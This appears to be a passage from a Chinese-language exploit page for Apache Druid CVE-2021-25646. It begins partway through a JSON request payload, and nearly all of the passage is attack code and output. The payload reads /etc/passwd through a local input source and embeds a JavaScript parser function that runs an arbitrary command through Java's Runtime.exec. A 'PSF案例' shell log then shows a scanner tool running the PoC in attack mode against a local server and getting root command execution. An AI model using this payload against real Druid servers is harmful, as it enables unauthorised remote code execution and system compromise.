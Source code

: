 ```javascript
                      "type": "local",
                      "baseDir": "/etc",
                      "filter": "passwd"
                  }
              },
              "dataSchema": {
                  "dataSource": "%%DATASOURCE%%",
                  "parser": {
                      "parseSpec": {
                          "format": "javascript",
                          "timestampSpec": {},
                          "dimensionsSpec": {},
                          "function": "function(){var s = new java.util.Scanner(java.lang.Runtime.getRuntime().exec(\"{{command}}\").getInputStream()).useDelimiter(\"\\A\").next();return {timestamp:\"2013-09-01T12:41:27Z\",test: s}}",
                          "": {
                              "enabled": "true"
                          }
                      }
                  }
              }
          },
          "samplerConfig": {
              "numRows": 10
          }
      }
```

### PSF案例

```shell
╭─huakai at huakai-deMacBook-Pro in ⌁/go/src/phenixsuite (develop ●4✚7…1⚑70)
╰─λ ./phenixsuite scan --poc static/pocs/apache-druid-cve-2021-25646-rce-attack.yml --url http://127.0.0.1:8888 --mode attack --options shell                                                                                                   127 < 00:00:00 < 11:20:26
input command (require): id
2021/02/04 11:20:47 scan.go:496: [INFO ] attack poc-yaml-apache-druid-cve-2021-25646-rce-attack
2021/02/04 11:20:47 scan.go:142: [INFO ] scan poc num:1 total:1
2021/02/04 11:20:48 scan.go:633: [INFO ] poc:poc-yaml-apache-druid-cve-2021-25646-rce-attack execute success
2021/02/04 11:20:48 scan.go:313: [INFO ] vul exist poc:poc-yaml-apache-druid-cve-2021-25646-rce-attack url:http://127.0.0.1:8888
 #   target-url              poc-name                                          gev-id       level      category    status   author   require   detail-extend                             
--- ----------------------- ------------------------------------------------- ------------ ---------- ----------- -------- -------- --------- -------------------------------------------
 1   http://127.0.0.1:8888   poc-yaml-apache-druid-cve-2021-25646-rce-attack   GEV-143659   critical   code-exec   exist    huakai             uid=0(root) gid=0(root) groups=0(root)\\n 
```

